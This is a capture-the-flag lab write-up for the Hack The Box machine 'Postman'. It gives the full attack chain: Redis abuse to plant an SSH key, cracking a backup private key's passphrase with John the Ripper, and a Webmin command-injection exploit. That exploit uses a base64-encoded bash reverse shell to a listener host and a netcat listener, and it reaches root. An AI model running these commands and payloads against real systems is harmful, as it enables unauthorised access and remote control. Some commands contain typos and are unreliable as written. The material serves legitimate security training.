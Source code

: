 ![postman](https://user-images.githubusercontent.com/66635295/177882324-7b24b663-8911-4c1c-81c6-85fbc14f3ea8.png)

**RECON**
---
**Unfinished Website**
![recon](https://user-images.githubusercontent.com/66635295/177882332-fd817d49-3650-4a0b-b8cf-9bd12907a41d.png)

**Nmap Scan**
<pre>nmap –p- -A -T4 10.10.10.160</pre>
-allports -version -Aggressive

Port 6379 Redis and Port 1000 Webpage
![nmap](https://user-images.githubusercontent.com/66635295/177882433-ba2d38f8-69fc-49e7-99ff-10ab7c868bd8.png)

**Webpage check**

Wepbpage shows an error, and the link does not work 
![10000](https://user-images.githubusercontent.com/66635295/177882646-5ebf6232-adf3-4e15-8cdd-b284ba8791f7.png)

Navigating to the proper page reveals Webmin login 
![webmin](https://user-images.githubusercontent.com/66635295/177882796-f0ff7900-9296-4471-b394-01b121af3ef9.png)

**Redis**
<pre> sudo apt-get install redis-tools </pre>
![redis install](https://user-images.githubusercontent.com/66635295/177883042-2adb0cbf-6e2c-44bc-a428-e99c52c57325.png)

Redis Host
<pre>redis-cli -h 10.10.10.160</pre>
![redis-h](https://user-images.githubusercontent.com/66635295/178047298-847ee0b2-b196-4674-ab2e-499e5b6a23fc.png)

Directory Check
<pre>CONFIG GET dir</pre>
<pre> CONFIG SET dir /var/lib/redis/.ssh</pre>
![redis-h](https://user-images.githubusercontent.com/66635295/178054227-24f483cd-851e-4e7d-9feb-120da1f1ff95.png)

**ENUMERATION**
---
**SSH Key**
<pre>ssh-keygen</pre>
![sshgen](https://user-images.githubusercontent.com/66635295/178054662-4469fc0a-1040-438b-9c44-6c62b8568dfc.png)

Copy key to .txt file
<pre> (echo -e "\n\n"; cat ~/id_rsa.pub; echo -e "\n\n") > key.txt  </pre>            
![keytxt](https://user-images.githubusercontent.com/66635295/178055503-d0f774e4-6c69-409a-99cf-c0eac96f8106.png)

Send key to host
<pre>cat key.txt | redis-cli -h 10.10.10.160 -x set ssh_key</pre>
![rkey](https://user-images.githubusercontent.com/66635295/178055971-545373bc-d97d-4ea1-bc7b-07574185d1e4.png)

Check key
<pre>get ssh_key</pre>
![check key](https://user-images.githubusercontent.com/66635295/178056511-f5151520-69fe-4dce-b9e5-8571d4c55139.png)

Set database
<pre>CONFIG SET dir /var/lib/redis/.ssh </pre>
<pre>CONFIG set dbfilename authorized_keys</pre>
<pre>save</pre>
<pre>exit</pre>
![set db](https://user-images.githubusercontent.com/66635295/178056953-a2d34e4d-f7b1-40db-b2ff-c58c8c4db9f3.png)


SSH into the host
<pre> ssh - id_rsa redis@10.10.10.160 </pre>

**Checking  Directorys**

authorized_keys directory is here 

![directory](https://user-images.githubusercontent.com/66635295/178059417-c9d01199-9069-4e64-9c48-840fba1f2d65.png)

Home directory 
<pre>ls -l</pre>
<pre>cd Matt</pre>
<pre>ls -l</pre>
User Matt has read permison for user flag

![matt](https://user-images.githubusercontent.com/66635295/178060409-6bc981cb-aca1-4f61-a78d-4dda178c30a0.png)

Opt Directory
<pre> cat id_rsa.bak </pre>
Reveals Private RSA KEY 


**PRIVILEGE ESCALATION**
---
**John the Ripper**

Copy paste the key and transfer it to .john
<pre> /usr/share/john/ssh2john.py postman_id_rsa_enc > postman_id_rsa.john </pre>
![sshtojohn](https://user-images.githubusercontent.com/66635295/178073942-d24e2b6a-b6c2-4652-8406-c8b7cb4242b2.png)

Cracked Password 
<pre> john postman_id_rsa.johm --wordlist=/usr/share/wordlists/rockyou.txt </pre>
Jonhn and rockyou.txt reveals password to be computer2008

![cracked](https://user-images.githubusercontent.com/66635295/178074216-551f939e-0907-4646-9070-fcedf0739f41.png)

**SSH Matt**
<pre>ssh Matt@10.10.10.160</pre>
Matt is denied permission

![fail matt](https://user-images.githubusercontent.com/66635295/178074458-e94015eb-af59-4635-88ca-d72305f099ae.png)

Checking SSH 
<pre>cd /etc/ssh/</pre>
<pre>ls</pre>
![sshconfig](https://user-images.githubusercontent.com/66635295/178074642-1a9db243-8f0e-4b36-b167-20d7103f491f.png)

reading sshd_config shows Matt is a denied login 

![denny](https://user-images.githubusercontent.com/66635295/178074725-c7d3d884-8855-4f91-aab4-b122591dbe00.png)

Postmatt
<pre> su Matt </pre>
<pre> Password: computer2008 </pre>

![postmatt](https://user-images.githubusercontent.com/66635295/178075034-35d1fd9d-d29c-4def-846f-df32e4c3d510.png)

Flag is now accessible 

![user flag](https://user-images.githubusercontent.com/66635295/178075070-f098c396-939f-4315-8073-d0e6d0a53312.png)

Webin is also accessible via same password

![mattlogin](https://user-images.githubusercontent.com/66635295/178095015-e4c8460d-8f94-4793-a0d4-d45035112b3f.png)

Checking Version shows webin 1.910

![version](https://user-images.githubusercontent.com/66635295/178095064-db2a39be-d321-41b3-9c3c-48097a84a05d.png)

**Root shell**
---
**Vulnearbilty**

CVE 2019-12850 is a severe vulnerability 

![vuln](https://user-images.githubusercontent.com/66635295/178095122-fe3ad733-aa3d-4bda-8e4d-b46ab7dd55a0.png)

Maneuver to Package Updates and turn on Burpsuite interceptor 

![burpon](https://user-images.githubusercontent.com/66635295/178095397-ea80e6f1-a9b4-4ae5-ab8d-8229afeb5fc5.png)

Send package-updates request to the repeater. Clear out some of the extra HTTP and add u=acl%2Fapt&u=$ to execute commands.

![check](https://user-images.githubusercontent.com/66635295/178095579-cd0cffb2-676e-4c12-be58-da3e29e627f1.png)

**Payload** 

Base64
<pre>echo -n 'bash -c "bash -i >& /dev/tcp/10.10.14.9/4444 0>&1"'| base64 </pre>
-newline -command_string -interactive_shell standard output TCP connection HOST/LISTENING PORT standard input

![base64](https://user-images.githubusercontent.com/66635295/178096539-257455ab-9507-4c0e-beb6-d6016db08edc.png)

Netcat
<pre> nc -lvp 4444 </pre>
-listen -verbose -port

![netcat](https://user-images.githubusercontent.com/66635295/178096671-66df4f9c-4244-4504-bda1-2382c01f559d.png)

URL Encode
<pre>$(echo${IFS}TCPSTRING|base64${IFS}-d|bash)</pre>
{IFS} prevent command from splitting  -decode

![url](https://user-images.githubusercontent.com/66635295/178096699-4811c722-342f-48be-a4c9-e05f10c36c88.png)


Put payload in the repeater

![payload](https://user-images.githubusercontent.com/66635295/178097240-7bad79e8-c25f-4922-bf62-333b3ce8f9d6.png)

**Shell**

Root Connection on listner

![shell](https://user-images.githubusercontent.com/66635295/178097333-c92dc960-1b42-4656-b3c9-1950676d08f4.png)

Flag in home directory

![rootflag](https://user-images.githubusercontent.com/66635295/178097415-cb60be01-dfa4-4b18-91c7-1510c068e727.png)


